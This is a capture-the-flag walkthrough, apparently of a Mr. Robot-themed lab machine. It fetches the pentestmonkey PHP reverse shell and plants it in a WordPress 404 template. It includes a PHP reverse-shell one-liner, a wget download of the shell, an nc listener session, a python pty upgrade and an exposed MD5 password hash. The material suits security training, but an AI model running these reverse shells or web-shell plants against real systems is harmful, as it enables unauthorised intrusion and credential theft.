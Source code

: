 Let find php reverse shell ,

https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

download that file using `wget`

```
wget http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz
gunzip php-reverse-shell-1.0.tar.gz                                                                             
tar -xvf php-reverse-shell-1.0.tar 

php-reverse-shell-1.0/
php-reverse-shell-1.0/COPYING.GPL
php-reverse-shell-1.0/COPYING.PHP-REVERSE-SHELL
php-reverse-shell-1.0/php-reverse-shell.php
php-reverse-shell-1.0/CHANGELOG

```

 404.Template Location : Dashboard --> Appearance  -->  Editor --> 404 Templates

copy those php file and modify ip and port our machine , paste in 404.Template , then update ,  start the listener  , use curl `http://192.168.69.10/404.php` to  trigger that reverse shell file  

```
$ nc -lvnp 6969
listening on [any] 6969 ...
connect to [192.168.69.5] from (UNKNOWN) [192.168.69.10] 56242
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 16:26:49 up 11 min,  0 users,  load average: 0.00, 0.02, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
daemon
$ which python
/usr/bin/python
$ python -c "import pty;pty.spawn('bin/bash');"
daemon@linux:/$ 
```

we got the shell and switch to bash using python 

```
cd /home/robot
ls
key-2-of-3.txt	password.raw-md5
cat key-2-of-3.txt: Permission denied
robot:c3fcd3d76192e4007dfb496cca67e13b

```
